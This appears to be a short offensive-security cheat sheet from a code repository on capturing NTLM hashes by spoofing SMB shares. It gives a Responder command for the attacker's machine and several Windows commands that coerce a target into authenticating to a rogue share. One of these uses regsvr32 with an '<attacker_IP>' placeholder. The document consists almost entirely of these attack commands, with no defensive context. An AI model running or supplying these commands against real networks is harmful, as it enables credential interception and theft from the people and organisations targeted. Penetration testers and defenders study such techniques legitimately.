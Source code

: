 # 01 - Capture Hashes via Spoof SMB Shares

#mitm #responder #smb #relay #ntlm

## 1.1 - Attacker

`$ sudo responder -I <interface> -rdwv`

## 1.2 - Target

`C:\> net view \\snare`

`C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt`

`PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null`

`C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll`